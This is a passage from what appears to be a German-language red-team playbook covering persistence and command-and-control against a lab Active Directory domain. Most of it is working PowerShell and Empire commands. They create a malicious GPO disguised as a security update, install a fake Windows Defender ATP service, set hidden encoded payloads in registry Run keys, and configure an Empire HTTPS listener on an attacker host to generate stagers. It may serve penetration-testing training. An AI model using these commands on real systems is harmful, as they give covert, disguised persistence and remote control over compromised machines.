 
## Phase 8: Persistence & Command & Control

### 8.1 Multiple Persistence Mechanisms

#### GPO-based Persistence
```powershell
# Mit Domain Admin-Rechten malicious GPO erstellen
New-GPO -Name "Windows Security Update" -Domain north.sevenkingdoms.local

# Startup Script für Persistence
Set-GPRegistryValue -Name "Windows Security Update" -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "SecurityService" -Type String -Value "powershell.exe -WindowStyle Hidden -enc <base64_persistence_payload>"

# GPO an Domain-Root verknüpfen
New-GPLink -Name "Windows Security Update" -Target "DC=north,DC=sevenkingdoms,DC=local"
```

#### Service-based Persistence
```powershell
# Windows Service auf allen kompromittierten Systemen
$serviceName = "Windows Defender Advanced Threat Protection Service"
$serviceDisplayName = "Windows Defender ATP Service"  
$servicePath = "C:\Windows\System32\svchost.exe -k DefenderATPService"

New-Service -Name $serviceName -DisplayName $serviceDisplayName -BinaryPathName $servicePath -StartupType Automatic

# Service starten
Start-Service -Name $serviceName
```

#### Registry Persistence
```powershell
# Current User Run Key
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsDefenderUpdate" -Value "powershell.exe -WindowStyle Hidden -enc <payload>"

# Local Machine Run Key (Admin-Rechte erforderlich)
Set-ItemProperty -Path "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsDefenderUpdate" -Value "powershell.exe -WindowStyle Hidden -enc <payload>"
```

### 8.2 Command & Control Infrastructure

#### PowerShell Empire Setup
```bash
# Empire Server starten
cd /opt/Empire
python3 empire --rest

# Empire Client
python3 empire --client

# HTTPS Listener konfigurieren
(Empire) > listeners
(Empire: listeners) > uselistener https
(Empire: listeners/https) > set Host https://attacker-ip:8443
(Empire: listeners/https) > set Port 8443
(Empire: listeners/https) > execute

# Stager generieren
(Empire) > usestager multi/launcher
```
